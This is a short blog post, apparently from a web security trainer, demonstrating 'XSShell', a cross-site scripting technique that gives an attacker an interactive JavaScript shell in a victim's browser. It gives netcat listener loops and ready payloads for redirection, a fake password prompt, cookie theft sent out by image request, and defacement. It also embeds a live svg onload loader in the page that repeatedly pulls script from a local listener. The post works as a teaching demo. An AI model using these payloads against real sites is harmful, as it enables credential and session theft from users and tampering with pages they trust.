 title: 'Fun with XSShell'
publish: True
categories: [application security]

So this is kinda fun. With this page open, copy and paste one of the listener commands from below into a terminal window on your local machine. Then, paste `alert(42)` into the resulting shell and press "Enter". Once you recover from the initial shock of what you just witnessed, play with the following payloads and spend the next hour of life thoroughly enjoying yourself.

<!-- READMORE -->

### Listeners

#### Linux

```
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -lp 8000 >/dev/null; done
```

#### OS X

```
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -l 8000 >/dev/null; done
```

### Example Payloads

#### Redirection

```
window.location = 'http://lanmaster53.com/training/'
```

#### Phishing

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+prompt("Password:")
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Session Hijacking

```
i=new Image();i.src="http://127.0.0.1:8888/pw/"+document.cookie
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Defacement

```
d=document;e=d.createElement("p");e.innerHTML="lanmaster53 wuz here!";d.body.appendChild(e)
```

### Credits

This is all based on the code shared in the following tweets.

<div class="row">
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Target<br><br>&lt;svg/onload=setInterval(function(){d=document;z=d.createElement(&quot;script&quot;);z.src=&quot;//HOST:PORT&quot;;d.body.appendChild(z)},0)&gt;</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639069519097503744">September 2, 2015</a></blockquote>
</div>
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Attacker<br><br>$ while :; do printf &quot;j$ &quot;; read c; echo <a href="https://twitter.com/search?q=%24c&amp;src=ctag">$c</a> | nc -lp PORT &gt;/dev/null; done</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639073880922030080">September 2, 2015</a></blockquote>
</div>
</div>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

<!-- attack payload -->
<svg/onload=setInterval(function(){d=document;try{d.getElementById("x").remove()}catch(e){};z=d.createElement("script");z.id="x";z.src="http://127.0.0.1:8000";d.body.appendChild(z)},3000)>

Check the source code here ^^^ for the active payload.
